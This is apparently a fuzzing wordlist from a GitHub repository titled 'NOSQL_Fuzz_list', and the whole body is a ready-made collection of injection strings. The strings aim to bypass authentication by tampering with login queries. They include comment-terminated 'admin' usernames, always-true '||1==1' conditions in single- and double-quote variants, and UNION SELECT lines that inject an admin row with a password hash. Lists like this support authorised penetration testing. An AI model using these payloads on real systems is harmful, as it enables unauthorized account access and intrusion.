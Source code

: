 # NOSQL_Fuzz_list

||1==1/*
admin'--
admin'#
admin'/*
admin'||'1'=='1
admin'||'1'=='1'--
admin'||'1'=='1'#
admin'||'1'=='1'/*
admin'||1==1||''=='
admin'||1==1
admin'||1==1--
admin'||1==1#
admin'||1==1/*
admin')||('1'=='1
admin')||('1'=='1'--
admin')||('1'=='1'#
admin')||('1'=='1'/*
admin')||'1'=='1
admin')||'1'=='1'--
admin')||'1'=='1'#
admin')||'1'=='1'/*
1234'AND1==0UNIONALLSELECT'admin','81dc9bdb52d04dc20036dbd8313ed055
admin"--
admin"#
admin"/*
admin"||"1"=="1
admin"||"1"=="1"--
admin"||"1"=="1"#
admin"||"1"=="1"/*
admin"||1==1||""=="
admin"||1==1
admin"||1==1--
admin"||1==1#
admin"||1==1/*
admin")||("1"=="1
admin")||("1"=="1"--
admin")||("1"=="1"#
admin")||("1"=="1"/*
admin")||"1"=="1
admin")||"1"=="1"--
admin")||"1"=="1"#
admin")||"1"=="1"/*
1234"AND1==0UNIONALLSELECT"admin","81dc9bdb52d04dc20036dbd8313ed055![image](https://user-images.githubusercontent.com/49601672/196064149-5d0d7fd6-149e-41e4-bde8-6402890d5db1.png)
